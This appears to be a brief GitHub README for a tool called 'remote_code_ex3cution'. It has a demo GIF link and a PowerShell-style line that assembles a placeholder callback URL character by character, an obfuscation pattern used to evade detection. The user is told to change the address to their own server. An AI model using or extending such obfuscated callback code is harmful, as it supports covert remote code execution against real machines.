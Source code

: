 ## remote_code_ex3cution


## DEMO
![DEMOGIF](https://user-images.githubusercontent.com/118774522/220413885-c2254a98-28e4-4fb3-967b-5b3693019456.gif)



! CHANGE ADDRESS

```
$U='h'+ 't'+ 't'+ 'p'+':'+ '/'+'/'+ '0'+ '0'+'0'+'.'+'0'+ '0'+'0'+'.'+'0'+'0'+'0'+'.'+'0'+ '0'+ '0'+':'+ '8'+'0'+'0'+ '0'
```

by:@ rick porto
